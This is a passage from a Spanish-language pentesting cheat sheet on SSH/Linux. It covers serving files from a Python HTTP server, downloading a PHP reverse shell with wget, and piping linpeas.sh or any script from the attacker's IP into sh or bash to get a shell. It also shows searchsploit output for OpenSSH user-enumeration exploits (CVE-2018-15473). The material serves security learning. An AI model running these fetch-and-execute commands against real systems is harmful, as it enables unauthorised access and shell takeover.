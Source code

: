 <br>

<h3 id="SSH3">Descargar/Ejecutar Archivos en Servicio SSH/Linux</h3>

Hay varias formas en las que podemos descargar o usar un servicio SSH o en Linux, para hacerlo, deberías abrir un servidor en Python: 
```bash
python3 -m http.server   
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

<br>

<h4 id="SSH3a">Descargando Archivo</h4>

* Ahora descargamos el archivo, como ejemplo usaremos la Reverse Shell de PHP:
```bash
wget Tu_IP:8000/php-reverse-shell.php
```

<br>

<h4 id="SSH3b">Ejecutando un Archivo con curl</h4>

* Si queremos ejecutar un archivo como **linpeas.sh**, aquí usamos el puerto 80 del servidor de Python, puedes especificar el puerto o no:
```bash
curl Tu_IP:80/linpeas.sh | sh
```

* También con **curl** puedes ejecutar un archivo Bash, esto puede servir para obtener una shell:
```bash
curl Tu_IP/arhcivo | bash
```

<br>

<h3 id="SSH4">Exploits/Herramientas Útiles</h3>

Te dejo estos links con información útil para explotar el servicio SSH:
* https://exploit-notes.hdks.org/exploit/network/protocol/ssh-pentesting/
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh

<br>

<h4 id="SSH4a">Enumeración de Usuarios SSH</h4>

Existe un Exploit que nos sirve para enumerar usuarios, este unicamente sirve para versiones **OpenSSH < 7.7**, ósea versiones menores a 7.7.

Este Exploit es el: **OpenSSH < 7.7 - User Enumeration (2)** que tiene el ID: **CVE-2018-15473**.
```bash
searchsploit ssh enum
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                            | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                      | linux/remote/45210.py
OpenSSH 7.2p2 - Username Enumeration                                                                | linux/remote/40136.py
OpenSSH < 7.7 - User Enumeration (2)                                                                | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                               | linux/remote/40113.txt
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```